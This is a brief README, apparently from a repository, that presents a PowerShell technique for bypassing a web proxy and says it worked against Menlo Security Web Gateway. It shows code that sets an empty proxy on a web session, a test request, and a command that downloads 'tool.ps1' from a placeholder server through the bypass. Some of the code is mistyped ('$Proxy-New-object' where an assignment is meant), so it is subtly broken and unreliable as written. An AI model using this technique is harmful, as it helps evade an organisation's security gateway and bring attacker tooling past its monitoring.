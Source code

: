# Proxy-Bypass
A proxy bypass using powershell. Sucecssfully used to bypass Menlo Security Web Gateway. 

## Powershell Code for proxy bypass.
```
$Proxy-New-object System.Net.WebProxy
$WebSession-new-object Microsoft.PowerShell.Commands.WebRequestSession
$WebSession.Proxy=$Proxy
```

## Test proxy bypass is working.
```
Invoke-webrequest -Uri "https://www.google.com" -WebSession $WebSession
```

## Download scripts/tooling using bypass.
```
Invoke-webrequest -Method Get -Uri "https://ServerAddress/tool.ps1" -WebSession $WebSession -outfile c:\temp\tool.ps1
```
